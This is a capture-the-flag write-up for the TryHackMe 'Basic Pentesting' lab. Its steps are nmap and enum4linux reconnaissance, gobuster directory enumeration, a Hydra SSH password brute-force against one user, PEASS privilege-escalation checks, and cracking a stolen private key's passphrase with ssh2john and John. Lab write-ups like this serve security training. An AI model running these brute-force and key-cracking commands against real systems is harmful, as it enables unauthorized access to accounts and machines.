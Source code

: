  # THM Machine ->  Basic Pentesting 


 ## Step1 : Take a nmap scan 
```
nmap -F -sC -sV -vv -oN report.txt "ip"
```

## Step 2 : Gather Info
Use enum4linux
```
enum4linux -a "ip"
```
Found there are 2 users jan and kay

Use Directory Buster to find the hidden directory
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "ip"

```

## Step 3 : Crack the Password 

Use Hydra to crack the password for jan
 ```
 hydra -l jan -P /usr/share/wordlists/rockyou.txt -V ssh:"ip"

```

Once Crack login as Jan

## Step 4 : To become admin

Use the tool PEASS to find vuln in machine
https://github.com/peass-ng/PEASS-ng/releases/tag/20241101-6f46e855

Once found switch directory copy the key (private) and make a txt file with permission 600
->**Kay is admin**

## Step 5 : To become kay 

To login as kay we need password 
but we have the authentication key so using it we will get a passphrase

```
ssh -i id_rsa kay@bproom.com 
```

Now for passphrase as the key we got is encrypted we use **JOHN**
Find John
```
whereis John
```
Go to john directory 
```
ls |grep ssh

```

used to crack ssh encryption


```
python3 /usr/share/john/ssh2john.py id_rsa -> hash.txt

```
used to crack password so john can understand

now
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
```

This Is used to for getting the passphrase

Now login using the passphrase

we have permission as kay

---
**Room Complete**


